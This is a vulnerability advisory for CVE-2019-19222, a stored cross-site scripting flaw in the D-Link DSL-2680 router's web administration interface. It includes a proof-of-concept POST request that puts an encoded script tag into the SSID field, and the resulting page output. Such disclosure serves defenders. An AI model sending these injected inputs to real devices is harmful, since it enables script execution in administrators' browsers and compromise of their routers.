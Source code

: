 ### CVE-2019-19222:  Stored XSS in DSL-2680 Web Administration Interface
**CVE:** CVE-2019-19222    
**Vulnerability Type**: Stored Cross Site Scripting (XSS)     
**Affected Product:** D-Link DSL-2680 - Firmware: EU_1.03    
**Affected Component:** D-Link DSL-2680: Web Administration Interface    
**Attack Type:** Remote    
**Impact:** Arbitrary Javascript code will be executed by the victim browser    

**Description:**    
A Stored XSS issue in the D-Link DSL-2680 web administration interface (Firmware EU_1.03) allows an authenticated attacker to inject arbitrary JavaScript code into the info.html administration page by sending a crafted POST request to the following URI:
`Forms/wireless_autonetwork_1`.

**Proof Of Concept:**    
As a proof-of-concept a POST request should be made to the following URI:
```
http://<x.x.x.x>/Forms/wireless_autonetwork_1
```
providing the following parameter:
```
WLan_Finish_SSID=%3Cscript%3Ealert%281%29%3C%2Fscript%3E
```
After that the javascript payload will be injected in the following page: `http://<x.x.x.x>/info.html`
```
[...]
<TD class=form_label> Nome rete (SSID)&nbsp;:</td><td><script>alert(1)</script></td></tr><tr>
[...]
```
